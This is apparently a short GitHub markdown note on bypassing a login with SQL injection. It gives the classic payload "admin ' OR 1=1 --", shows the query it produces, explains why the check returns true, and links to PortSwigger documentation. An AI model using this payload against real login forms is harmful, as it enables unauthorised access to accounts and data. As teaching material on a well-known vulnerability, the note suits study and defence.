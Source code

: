 # Login

Bypass login:

```sql
username = admin ' OR 1=1 --
password = ?
```

```SQL
SELECT * FROM users WHERE username = 'administrator' OR 1=1 --' AND password = ''
```

Verification return true because 1=1 !

### Documentation

- [portswigger](https://portswigger.net/web-security/sql-injection)

---

[**:arrow_right_hook: Back home**](/README.md)